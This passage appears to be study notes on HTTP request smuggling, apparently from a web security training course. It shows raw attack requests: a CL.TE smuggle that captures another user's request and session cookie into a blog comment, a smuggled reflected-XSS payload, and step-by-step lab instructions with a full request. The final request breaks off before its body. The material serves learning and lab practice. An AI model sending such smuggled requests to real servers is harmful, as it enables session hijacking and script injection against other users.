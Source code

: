 Here the body should be of 400 bytes long, but we are only providing 144 bytes. Now either the backend server will wait till the timeout or send the request from another request if it get's one. So if another request is received then it should look like.


```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```
As the start of the victim's request is contained in the comment parameter, this will be posted as a comment on the blog, enabling you to read it simply by visiting the relevant post. 

## Using HTTP request smuggling to exploit reflected XSS 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

# LAB


## Lab: HTTP request smuggling, basic CL.TE vulnerability

1. Open the page 
2. Change the request method to POST 
3. Now Change the protocol from Inspector tab
4. From Repeter option you can uncheck the `update content length`
5. Now Send the following requests

```
POST / HTTP/1.1\r\n
Host: 0a41008d0328120e80911710009200d3.web-security-academy.net\r\n
Cookie: session=jU9rN8a7QE25yiLafTP2Aa2O6Cu6QZOf\r\n
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Accept-Encoding: gzip, deflate, br\r\n
Upgrade-Insecure-Requests: 1\r\n
Sec-Fetch-Dest: document\r\n
Sec-Fetch-Mode: navigate\r\n
Sec-Fetch-Site: none\r\n
Sec-Fetch-User: ?1\r\n
Priority: u=0, i
Te: trailers\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
```